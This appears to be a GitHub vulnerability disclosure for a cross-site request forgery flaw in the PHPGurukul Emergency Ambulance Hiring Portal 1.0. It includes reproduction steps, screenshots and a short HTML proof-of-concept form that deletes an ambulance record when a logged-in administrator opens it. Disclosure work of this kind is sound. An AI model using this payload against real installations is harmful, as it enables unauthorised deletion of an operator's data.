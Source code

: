 ## Emergency Ambulance Hiring Portal 

**Bug Description:**

A Cross Site Request Forgery (CSRF) vulnerability in "/admin/manage-ambulance.php" endpoint of PHPGurukul Emergency Ambulance Hiring Portal 1.0 allows attackers to "Delete an Ambulance" via a crafted html request.


Steps to Reproduce:

```
# Exploit Title: Cross Site Request Forgery (CSRF) vulnerability in Emergency Ambulance Hiring Portal 
# Date: 28-03-2024
# Exploit Author: dhabaleshwardas
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/emergency-ambulance-hiring-portal-using-php-and-mysql/
# Version: 1.0
# Tested on: firefox/chrome/brave
# CVE:
```


To reproduce the attack:

1- Head to the http://localhost/eahp/admin/manage-ambulance.php after logging into the admin account.


<img width="830" alt="1" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/9d3ea2a0-7c99-4201-a241-ff82396794b1">


2- Here you can see that we are going to delete the ambulance with "XYZ1234" number , for that we will use the HTML code we have written.


<img width="450" alt="3" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/9d1c2ddd-ed72-41d9-8a31-56e35f4a5887">


```
<html>
  <!-- CSRF PoC --->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/eahp/admin/manage-ambulance.php">
      <input type="hidden" name="del" value="10" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

3- We'll then execute this HTML code and we successfully see that the record has been deleted successfully.


<img width="611" alt="4" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/38c8c967-9f61-4b19-9413-5a240ba8ae05">
